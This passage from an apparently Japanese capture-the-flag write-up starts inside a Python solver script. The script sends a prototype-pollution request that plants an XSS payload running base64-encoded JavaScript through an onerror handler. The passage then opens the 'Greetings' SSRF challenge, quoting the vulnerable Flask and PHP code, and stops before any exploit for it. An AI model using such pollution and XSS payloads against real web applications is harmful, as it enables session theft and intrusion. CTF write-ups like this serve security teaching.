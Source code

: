 ```python:solver.py
}}, "*")
'''

r = s.post(URL + "api/user/settings", json={
    'name': "foobar",
    "phone": "01201079229",
    "position": "01201079229",
    "__proto__": {
        "tasks": [{
            "date": '2024-11-16',
            'tasksCompleted': f'<img src=X onerror=eval(atob("{b64encode(payload.encode()).decode()}"))>'
        }]
    }
})
print(r.text)
```

## ✅ [Web]Greetings(423pts 23/1061 クリア率2.2%)

`web`、`node`、`flask`という3つのマイクロサービスが動いている。

`web`は通常`node`に対して問い合わせを行うが、`flask`に対してSSRFができればフラグを入手できる。ただし、問い合わせの内容は、
1. headerに`Password: admin`を含む
2. `request.form.get("username")=="admin"`となるようなbodyと`Content-Type`を含む

という条件を満たさなければならない。

```python:flask/app.py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
    if username and username == "admin" and password and password == "admin":
        return os.getenv('FLAG')
    return "So close"
``

`web`がリクエストを送る箇所は次のようになっている。

```php:php/src/index.php
<?php
if(isset($_POST['hello']))
{
    session_start();
    $_SESSION = $_POST;
    if(!empty($_SESSION['name']))
    {
        $name = $_SESSION['name'];
        $protocol = (isset($_SESSION['protocol']) && !preg_match('/http|file/i', $_SESSION['protocol'])) ? $_SESSION['protocol'] : null;
        $options = (isset($_SESSION['options']) && !preg_match('/http|file|\\\/i', $_SESSION['options'])) ? $_SESSION['options'] : null;
        
        try {
            if(isset($options) && isset($protocol))
            {
                $context = stream_context_create(json_decode($options, true));
                $resp = @fopen("$protocol://127.0.0.1:3000/$name", 'r', false, $context);
            }
            else
            {
                $resp = @fopen("http://127.0.0.1:3000/$name", 'r', false);
            }
```